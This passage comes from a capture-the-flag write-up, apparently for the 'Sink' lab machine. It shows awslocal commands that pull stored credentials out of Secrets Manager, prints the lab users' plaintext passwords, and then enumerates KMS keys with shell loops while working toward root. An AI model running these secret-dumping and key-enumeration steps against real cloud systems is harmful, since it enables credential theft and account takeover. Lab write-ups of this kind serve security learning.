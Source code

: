 ```
            "Description": "A panel to manage the resources in the devnode",
(...)
            {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-sFGWa",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
(...)
```

Getting secrets from all groups:
```
awslocal secretsmanager get-secret-value --secret-id "Jenkins Login"

awslocal secretsmanager get-secret-value --secret-id "Sink Panel"

awslocal secretsmanager get-secret-value --secret-id "Jira Support"
```
```
"SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~8j\"}",

"SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",

"SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EALB=bcC=`a7f2#k\"}",
```

The _/etc/passwd_ file shows that only the user _david_ exists and has a home folder.
The password works and users can be changed with `su` to _david_.

### Privilege Escalation to root

In the home folder _/home/david/Projects/Prod_Deployment_ is a file called _servers.enc_ and it looks like some kind of encrypted file.
In **AWS** files can be encrypted with [AWS Key Management Service](https://docs.aws.amazon.com/kms/latest/developerguide/overview.html):
```
awslocal kms list-keys
```

There are 11 keys and a for loop can be used to get the contents of all of them:
```bash
for i in $(awslocal kms list-keys | grep KeyId | awk -F\" '{print $4}'); do awslocal kms describe-key --key-id $i; done
```

Getting a list of disabled and enabled keys:
```bash
for i in $(awslocal kms list-keys | grep KeyId | awk -F\" '{print $4}'); do echo -n "$i : "; awslocal kms describe-key --key-id $i | grep KeyState; done
```

There are two enabled keys:
```
awslocal kms describe-key --key-id 804125db-bdf1-465a-a058-07fc87c0fad0
```
```
"KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
        "Enabled": true,
        "Description": "Encryption and Decryption",
        (...)
        "CustomerMasterKeySpec": "RSA_4096",
        "EncryptionAlgorithms": [
            "RSAES_OAEP_SHA_1",
            "RSAES_OAEP_SHA_256"
```
```
awslocal kms describe-key --key-id c5217c17-5675-42f7-a6ec-b5aa9b9dbbde
```
```
"KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
```